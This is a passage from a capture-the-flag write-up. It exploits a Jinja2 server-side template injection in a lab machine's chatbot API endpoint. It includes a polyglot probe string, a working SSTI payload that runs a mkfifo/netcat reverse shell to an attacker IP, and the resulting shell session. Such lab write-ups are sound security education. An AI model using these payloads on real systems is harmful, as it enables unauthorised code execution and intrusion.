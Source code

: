 Reviewing the response for the `http://127.0.0.1:3000/api/docs` request, we are successfully able to retrieve the **API** documentation. Among the endpoints listed, we find an interesting one: `/api/fetch_messeges_from_chatbot`, which accepts a **`POST`** request.

![Web 80 Storage Store Url Response Two](web_80_storage_store_url_response2.webp){: width="1000" height="500"}

### RCE via SSTI

Testing the newly discovered `/api/fetch_messeges_from_chatbot` endpoint by making a **POST** request with an empty **JSON** payload, we receive the message **"username parameter is required"**.

![Web 80 Storage Fetch Messages](web_80_storage_fetch_messages.webp){: width="1000" height="500"}

Next, when we send a request with the `username` parameter using the payload **`{"username":"admin"}`**, we receive a message indicating that the chatbot is under development.

![Web 80 Storage Fetch Messages Two](web_80_storage_fetch_messages2.webp){: width="1000" height="500"}

However, an interesting observation is that the `username` we entered is reflected in the response. Due to this, we can test for the **SSTI** vulnerability by using a **polygot SSTI** payload such as: `${{<%[%'"}}%\.`, with the payload:

```json
{"username":"${{<%[%'\"}}%\\."}
```

This causes an error on the **Jinja2** templating engine, as indicated by the response.

![Web 80 Storage Fetch Messages Ssti](web_80_storage_fetch_messages_ssti.webp){: width="1000" height="500"}

> You might wonder why a **Node.js** application using the **Express** framework returns an error from the **Jinja2** templating engine, which is typically used with **Python**. This is because the **Express** application forwards requests made to the `/api/fetch_messeges_from_chatbot` endpoint to an internal **Flask** application and returns its response.
{: .prompt-tip }


Now that we know the `username` field is vulnerable to **SSTI** and the application uses the **Jinja2** templating engine, we can exploit this to achieve **RCE** and gain a reverse shell with the following payload:

```json
{"username":"{{ self.__init__.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.11.72.22 443 >/tmp/f').read() }}"}
```
{: .wrap }

Upon sending this payload, the server hangs as expected.

![Web 80 Storage Fetch Messages Ssti Two](web_80_storage_fetch_messages_ssti2.webp){: width="1000" height="500"}

And checking our listener, we obtain a shell as the `azrael` user and can read the user flag at `/home/azrael/user.txt`.

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.74.18] 56876
bash: cannot set terminal process group (604): Inappropriate ioctl for device
bash: no job control in this shell
azrael@forge:~/chatbotServer$ python3 -c 'import pty;pty.spawn("/bin/bash");'
azrael@forge:~/chatbotServer$ export TERM=xterm
azrael@forge:~/chatbotServer$ ^Z
zsh: suspended  nc -lvnp 443

$ stty raw -echo; fg
[1]  + continued  nc -lvnp 443

azrael@forge:~/chatbotServer$ id
```
